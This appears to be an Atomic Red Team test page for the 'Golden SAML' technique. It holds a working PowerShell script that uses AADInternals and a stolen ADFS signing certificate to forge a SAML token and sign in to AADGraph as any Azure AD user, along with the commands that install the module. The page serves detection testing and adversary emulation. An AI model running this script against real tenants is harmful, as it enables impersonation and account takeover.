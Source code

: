 ```yaml
---
tags: [T1606_002, atomic_test]
filename: "[[T1606.002|T1606.002 - Forge Web Credentials: SAML token]]"
---
```

# T1606.002 - Forge Web Credentials: SAML token

## Atomic Test #1 - Golden SAML
Forge a "Golden SAML" token which allows to impersonate any Azure AD user, and authenticate to AADGraph (as a proof). 
You will need the ADFS token signing certificate (see T1552.004 to export it).
More info here : https://o365blog.com/post/adfs/

**Supported Platforms:** Azure-ad


**auto_generated_guid:** b16a03bc-1089-4dcc-ad98-30fe8f3a2b31





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| certificate_path | Token signing certificate path. See T1552.004 to export it | path | .&#92;ADFS_signing.pfx|
| immutable_id | ImmutableId of the targeted user. It can be obtained with AzureAD powershell module; $(Get-AzureADUser -SearchString "username").ImmutableId | string | aehgdqBTZV50DKQZmNJ8mg==|
| issuer_uri | Issuer URI of the ADFS service | string | http://contoso.com/adfs/services/trust/|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module AADInternals -Force
$saml = New-AADIntSAMLToken -ImmutableID "#{immutable_id}" -PfxFileName "#{certificate_path}" -Issuer "#{issuer_uri}"
$conn = Get-AADIntAccessTokenForAADGraph -SAMLToken $saml -SaveToCache
if ($conn) { Write-Host "`nSuccessfully connected as $($conn.User)" } else { Write-Host "`nThe connection failed" }
Write-Host "End of Golden SAML"
```




#### Dependencies:  Run with `powershell`!
##### Description: AADInternals module must be installed.
##### Check Prereq Commands:
```powershell
if (Get-Module AADInternals) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name AADInternals -Force
```




<br/>
